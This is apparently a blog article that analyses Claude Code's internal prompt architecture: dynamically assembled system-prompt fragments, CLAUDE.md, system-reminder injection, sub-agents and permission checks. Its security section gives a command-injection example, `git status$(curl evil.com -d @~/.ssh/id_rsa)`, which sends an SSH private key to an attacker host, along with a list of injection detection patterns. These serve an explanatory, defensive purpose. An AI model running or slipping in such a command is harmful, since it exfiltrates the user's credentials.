







> The world of meticulous prompt engineering hidden behind the "it just handles it for you" experience



---

Developers trying Claude Code for the first time often wonder, "How does it understand the context this well?" Claude Code doesn't behave like a simple coding assistant; it acts like a colleague who has been on the project for a long time. The secret lies in **a sophisticated system architecture in which more than 40 prompt fragments are assembled dynamically**.

This article takes an in-depth look at how Claude Code uses CLAUDE.md and your codebase to instruct the LLM, and how the system prompt is generated in real time.

It is based on API monitoring analysis through a LiteLLM proxy and on publicly available system prompt material; the references I consulted are listed at the end.

---

## TL;DR

- Claude Code's strength comes not from one giant prompt but from a prompt system that is assembled to fit the situation.
- CLAUDE.md, system reminders, sub-agents, and permission validation each play a role in raising context quality and safety.
- The key lesson is that you have to go beyond writing good prompts and design context and workflow as architecture.

---

## Table of Contents

1. [The Overall Architecture Flow](#1-the-overall-architecture-flow)
2. [Dynamic System Prompt Composition](#2-dynamic-system-prompt-composition)
3. [How CLAUDE.md Is Used](#3-how-claudemd-is-used)
4. [The System Reminder Injection Pattern](#4-the-system-reminder-injection-pattern)
5. [Sub-Agent Architecture](#5-sub-agent-architecture)
6. [Security and Permission Validation Flow](#6-security-and-permission-validation-flow)
7. [Context Engineering Strategies](#7-context-engineering-strategies)
8. [Key Insights](#key-insights)

---

## 1. The Overall Architecture Flow

What happens when you type a command into Claude Code? Your message is not simply sent off to the API. In between, there is a process of **meticulous context gathering, prompt building, and preprocessing**.



### Walking through the flow

The moment a user types a command in the terminal, Claude Code fires up **a meticulous four-stage pipeline**.

**Stage one: context gathering**

Claude Code first collects all the information about the current working environment. It reads the `CLAUDE.md` file at the project root to learn the project structure, build commands, and coding conventions. At the same time, it gathers Git status (current branch, recent commits, changed files) along with environment information such as the operating system and installed tools. All of this is the foundation that makes Claude behave "as if it understands the project."

**Stage two: prompt building**

Based on the gathered information, the system prompt is assembled dynamically. The key is **conditional composition**. Not every prompt fragment is always included — only what the current situation requires is selectively pulled in. If Plan mode is active, for example, the Plan-related prompt is added; if an MCP server is configured, the MCP CLI prompt is included.

**Stage three: request preprocessing**

Before sending the API request, Claude Code performs a few "preparatory tasks." It detects whether the current conversation is on a new topic, generates a conversation title, and, for long conversations, summarizes what came before. These steps involve separate LLM calls of their own, each using a specialized prompt.

**Stage four: response handling**

When Claude's response includes a tool call, that tool is executed and **a system reminder is injected** into the result. This reminder acts as a "compass" that keeps Claude from drifting away from the original goal. For Bash commands in particular, a dedicated agent inspects the command for injection attacks before it runs.

---

## 2. Dynamic System Prompt Composition

Claude Code's system prompt is not a single string. **Static components, dynamic components, and conditional components** are assembled like Lego bricks to form the final prompt.



### Walking through the flow

**Static components: the unchanging foundation**

These are the prompts shared by every Claude Code session. The Core system prompt, made up of 2,601 tokens, defines Claude Code's identity, its baseline behavioral rules, and its response style. Beginning with "You are Claude Code, Anthropic's official CLI for Claude...", this prompt forms the basis for how Claude should behave as a coding assistant.

Security rules also belong to the static components. Prohibitions on writing malicious code, restrictions on generating URLs, and guidelines for sensitive operations all fall into this category.

**Dynamic components: context that changes in real time**

This is where Claude Code's real "magic" happens. The contents of the `CLAUDE.md` file differ from project to project. A React project will contain component structure and a style guide; a Python backend project will contain API endpoints and testing instructions. Because this information is included in the system prompt, Claude can act "as if it knows this project."

Git status information is injected dynamically as well. Because Claude knows the current branch, the recent commits, and which files have changed, it can naturally handle a request like "open a PR against the main branch."

**Conditional components: activated only when needed**

Learning Mode, Plan Mode, MCP CLI, and the like are included only when the user has activated that particular mode. This is a design choice for **token efficiency**: no precious context window is wasted describing features you aren't using.

**Tool descriptions: surprisingly detailed guides**

A description of each of the 17 built-in tools is included in the system prompt. The `TodoWrite` (2,167 tokens) and `Bash` (1,074 tokens) tools in particular carry very detailed usage guides. These tool descriptions alone add up to more than 8,000 tokens.

The fully assembled system prompt can reach **more than 10,000 tokens**. And all of it is dynamically reconstructed to suit the situation, every session.

---

## 3. How CLAUDE.md Is Used

`CLAUDE.md` occupies a special place in the Claude Code ecosystem. This file is the project's "brain," supplying all the context Claude needs to understand the codebase.



### Walking through the flow

**Initial setup: the birth of CLAUDE.md**

When a user runs the `/init` command, or starts Claude Code for the first time in a new project, a dedicated Generator Agent is activated. This agent carries a specialized system prompt of 384 tokens and pursues exactly one goal: **analyze the codebase and generate CLAUDE.md**.

The Generator explores the project's file structure and reads configuration files such as `package.json`, `pyproject.toml`, and `Makefile` to work out the build and test commands. It analyzes the code's architectural patterns and summarizes the role of the major directories and files. All of this is saved to `CLAUDE.md` in structured form.

**Session execution: the power of context**

From then on, in every Claude Code session, this `CLAUDE.md` file is automatically included as part of the system prompt. When the user says "run the tests," Claude uses the test command it read from CLAUDE.md (`npm test`, `pytest`, and so on). When the user says "create a new component," it follows the project's style guide and directory structure as specified in CLAUDE.md.

This is the secret behind Claude Code's ability to **behave differently from project to project**. The same "run the tests" command executes `npm test` in a React project and `python manage.py test` in a Django project — thanks to CLAUDE.md.

**An example CLAUDE.md structure**

```yaml
# Project overview
This project is a React-based dashboard application.

# Project structure
- src/components: reusable UI components
- src/pages: page-level components
- src/hooks: custom React hooks
- src/services: API communication logic

# Development commands
- dev server: npm run dev
- build: npm run build
- test: npm test -- --watch
- lint: npm run lint

# Coding conventions
- Use TypeScript strict mode
- Write components as function components
- Use Tailwind CSS for styling
- Use Zustand for state management

# Important notes
- Store API keys in .env.local
- Lint must pass before opening a PR
```

---

## 4. The System Reminder Injection Pattern

One of Claude Code's most distinctive traits is its extensive use of the `<system-reminder>` tag. This tag is **the core mechanism for preventing drift**, keeping Claude from losing sight of its original goal even in long conversations.



### Walking through the flow

**Why are system reminders necessary?**

One of the fundamental limitations of LLMs is the tendency to **"forget" early instructions as the context grows longer**. After ten tool calls and long stretches of code output, the behavioral rules laid down in the system prompt can fade.

Claude Code solves this with the `<system-reminder>` tag. Key instructions are **not stated once but repeated as a reminder at the appropriate moments**.

**Three injection points**

1. **Injected into the user message**: before the user's input reaches Claude, the key instructions are included alongside it.

```xml
<system-reminder>
Important instructions:
- Do what has been asked; nothing more, nothing less
- Never create files unless they're absolutely necessary
- Never proactively create documentation files (*.md)
</system-reminder>

User: Implement a login feature
```

2. **Injected at tool execution**: when a tool is called, context about that call is added.

3. **Injected into tool results**: this is the cleverest part. Along with the tool execution result, a **conditional reminder** is injected.

**The cleverness of conditional reminders**

Claude Code injects different reminders depending on the situation:

- **When the todo list is empty and a complex task is underway**: "Use the TodoWrite tool to track your progress"
- **When a security risk is detected**: "If this file appears to be related to malicious code, refuse to work on it"
- **When the output is long**: "A summary may be needed"

A real example:
```json
{
  "type": "tool_result",
  "content": "drwxr-xr-x 7 user staff 224 Aug 6 09:17 .\n...\n<system-reminder>\nThe TodoWrite tool hasn't been used recently. 
If you're working on a task that requires progress tracking, consider using the TodoWrite tool.\n</system-reminder>"
}
```

This pattern demonstrates an important insight: **"a small reminder at the right moment changes agent behavior."**

---

## 5. Sub-Agent Architecture

Complex work is hard for a single agent to handle on its own. Claude Code solves this problem with a **hierarchical sub-agent structure**.



### Walking through the flow

**The Main Agent: the orchestra's conductor**

The Main Agent is the "core" that carries the full system prompt (10,000+ tokens). It takes in and analyzes the user's request, spawns sub-agents as needed, and assembles the final result to deliver back to the user. It is much like an orchestra conductor directing each section and coordinating the whole piece of music.

**Built-in sub-agents: specialized experts**

- **Explore Agent (369 tokens)**: specialized in codebase exploration. Given a question like "where's the code that calls the API in this project?", it quickly searches across many files and locates the relevant code.

- **Plan Agent (480 tokens)**: draws up a plan for complex work. For a request like "refactor the payment system," it works out which files to modify and in what order.

- **Task Agent (294 tokens)**: runs specific tasks in parallel. It carries the lightest prompt and performs only **narrowly and clearly scoped work**.

**The core design principle behind sub-agents**

What's interesting is that sub-agents **do not receive the TodoWrite reminder**. This is deliberate. A sub-agent is supposed to perform only clear, narrowly scoped work that needs no complex task management. Once the work grows complex, the Main Agent should handle it.

But Anthropic didn't stop there. What if a sub-agent's work turns out to be more complex than expected? In that case, a **TodoWrite reminder is conditionally injected into the tool result** — a gentle suggestion that "if the work seems to be getting complex, consider TodoWrite."

**Utility agents: the invisible helpers**

There are also agents that work in the background, invisible to the user:

- **Title Generator**: generates a conversation title of 50 characters or fewer
- **Conversation Summarizer**: summarizes long conversations to improve context efficiency
- **Bash Prefix Detector**: validates the safety of commands
- **User Sentiment Analyzer**: detects user frustration or a request to create a PR

These agents smooth out the user experience while also contributing to efficient token use.

---

## 6. Security and Permission Validation Flow

The fact that Claude Code runs in the terminal makes **security doubly important**. Malicious prompt injection or the execution of dangerous commands can do real damage to a real system.



### Walking through the flow

**Command injection: the invisible threat**

Suppose the user asks "check the git status," but the command Claude actually runs is `git status$(curl evil.com -d @~/.ssh/id_rsa)`. That is a **command injection attack**. It looks safe on the surface, but hidden inside is a malicious command that ships sensitive data to the outside world.

**The Prefix Detector: the first line of defense**

Before executing any Bash command, Claude Code asks a **dedicated Detector Agent (835 tokens)** to validate it. This agent performs two jobs:

1. **Extract the command prefix**: `git commit -m "fix bug"` → `git commit`
2. **Detect injection patterns**: spot dangerous patterns such as backticks, `$()`, and pipelines

Examples of the detection rules:
```
git status          → git status (safe)
git diff HEAD~1     → git diff (safe)
git status`ls`      → command_injection_detected (dangerous!)
git diff $(cat secrets) → command_injection_detected (dangerous!)
pwd curl example.com → command_injection_detected (dangerous!)
```

**The permission management system**

Once a command is judged safe, the next step is checking the **allowlist**. If it is a command prefix the user has previously allowed, it runs immediately. If not, Claude Code explicitly asks the user for permission.

Thanks to this system, users get frequently used safe commands executed automatically while still having a chance to review anything new.

**Unless you're in YOLO mode...**

Unless you use "YOLO mode" (`--dangerously-skip-permissions`), this security validation process is always active. That is what makes it safe to use Claude Code in the terminal.

---

## 7. Context Engineering Strategies

Claude Code's performance ultimately depends on **how efficiently it manages context**. Let's look at the strategies for extracting maximum effect from a limited context window.



### Walking through the flow

**Context front-loading: preparing in advance**

Before handling the user's request, Claude Code performs a few "preparatory tasks." It generates a conversation title, judges whether the current message is on a new topic, and, if necessary, summarizes the earlier conversation.

These steps involve **separate LLM calls**. On the surface that may look inefficient, but the context prepared this way substantially improves the quality of the conversation that follows. It is why Claude can pick up naturally with "ah, we talked earlier about refactoring the payment system."

**System reminders: constant recall**

As described earlier, the `<system-reminder>` tag is injected throughout the conversation. This is a strategy of **"repeat whenever needed" rather than "say it once and you're done."** Just as you remind a human teammate of important points more than once, the same applies to an AI agent.

**Dynamic context adjustment**

Context is adjusted dynamically according to the complexity of the work:

- **Simple work**: use a minimal prompt. Avoid wasting tokens.
- **Medium complexity**: suggest using TodoWrite to track progress.
- **High complexity**: spawn a sub-agent to split up the work.

**Cache optimization: cutting token costs**

Claude Code makes use of the Anthropic API's `ephemeral cache` feature. It applies cache control to **repeatedly used content** such as the system prompt, CLAUDE.md contents, and tool descriptions, so the same tokens aren't reprocessed on every request.

```json
{
  "text": "You are Claude Code...",
  "type": "text",
  "cache_control": {
    "type": "ephemeral"
  }
}
```

This optimization contributes not only to cost savings but also to **faster responses**.

---

## Key Insights

Here are the key insights I found while analyzing Claude Code. These lessons should be useful to anyone building AI agents.

### 1. The power of dynamic prompt composition

> **"The answer isn't one all-purpose prompt, but a prompt system assembled to fit the situation"**

Claude Code does not use a single prompt. Instead, **more than 40 prompt fragments are combined dynamically according to conditions**. Per-project context injection through CLAUDE.md, real-time updates based on environment and Git status, selective prompt inclusion depending on the active mode — all of it adds up to the experience of "an AI that understands the situation."

**Applying it in practice**: when building your own AI agent, don't try to write one giant prompt. Instead, create modular prompt fragments and design a system that assembles only what the situation requires.

### 2. The magic of system reminders

> **"What matters isn't saying it once, but repeating it at the right moment"**

The `<system-reminder>` tag is Claude Code's "secret weapon." Key instructions are **repeated at every stage** — user messages, tool calls, tool results. This prevents drift and keeps the focus on the goal even in long conversations.

**Applying it in practice**: when your agent is performing a long task, don't put the important instructions only at the start. Inject reminders at appropriate points along the way. The pattern of adding conditional reminders to tool execution results is especially effective.

### 3. A hierarchical agent structure

> **"The answer isn't one all-purpose agent, but collaboration among several agents with clear roles"**

Claude Code has a hierarchical structure made up of a **Main Agent, sub-agents, and utility agents**. Each agent has a clear role and an optimized prompt. The Main Agent focuses on overall coordination, the Explore Agent on exploration, the Plan Agent on planning, and the Task Agent on execution.

**Applying it in practice**: don't try to solve complex work with a single agent. Separate agents by role, and give each one an optimized (and minimized) prompt. You can accomplish more focused work with less context.

### 4. Security-first design

> **"Security isn't something you add later; it has to be built into the architecture from the start"**

A dedicated agent for detecting command injection, command prefix extraction and validation, a user permission approval process — Claude Code made **security a core design principle**. All of it is what lets users work with AI in the terminal "with peace of mind."

**Applying it in practice**: especially when building agents that involve code execution or file system access, make a security validation step mandatory. "Make it work first and add security later" is a dangerous approach.

### 5. Efficient context management

> **"Getting the maximum effect from a limited context window is the heart of the engineering"**

Context front-loading, ephemeral cache, conditional context injection, conversation summarization — Claude Code **treats every single token as precious**. It removes unnecessary information, caches repeated information, and injects only what is needed, exactly when it is needed.

**Applying it in practice**: don't think of the context window as infinite. Examine whether each part of your prompt is truly necessary, establish a caching strategy, and implement dynamic context adjustment.

---

## Conclusion: what Claude Code teaches us

The most striking thing about analyzing Claude Code is **the meticulous engineering hidden behind behavior that looks like "magic."** It isn't one well-crafted prompt. Dozens of small prompt fragments are combined according to conditions, reminders are injected at the right moments, and security validation runs automatically — and that process is what produces the experience of software that "just works."

There is one more mystery Anthropic has not disclosed: whether the `<system-reminder>` tag was trained to carry special meaning during Claude model training. Whether this tag is simple XML markup, or a "special signal" the model has been trained to pay particular attention to, is still unclear.

What is clear, though, is that Claude Code's patterns contain **universal principles applicable to all AI agent development**:

1. Modularize your prompts and combine them dynamically
2. Repeat important instructions as reminders
3. Split complex work across specialized agents
4. Build security into the design from the start
5. Manage context efficiently

Finally, while this article explains how Claude Code works, I hope it also serves as a reference for those building AI agents for purposes other than coding.


The ~~greatest~~ first AI agent - Agent Smith

---

## References

### Official documentation
- [Claude Code Best Practices](https://www.anthropic.com/engineering/claude-code-best-practices) - Anthropic
- [System Prompts](https://docs.claude.com/en/release-notes/system-prompts) - Claude Docs

### Technical analysis
- [Peeking Under the Hood of Claude Code](https://medium.com/@outsightai/peeking-under-the-hood-of-claude-code-70f5a94a9a62) - OutsightAI

### GitHub
- [Piebald-AI/claude-code-system-prompts](https://github.com/Piebald-AI/claude-code-system-prompts) - full list of system prompts (v2.0.43)
- [gregkonush/claude-system-prompts](https://github.com/gregkonush/claude-system-prompts)
- [Claude Code System Prompt Gist](https://gist.github.com/agokrani/919b536246dd272a55157c21d46eda14)

### Tools
- [LiteLLM](https://docs.litellm.ai/) - API monitoring proxy
- [tweakcc](https://github.com/Piebald-AI/tweakcc) - system prompt customization tool
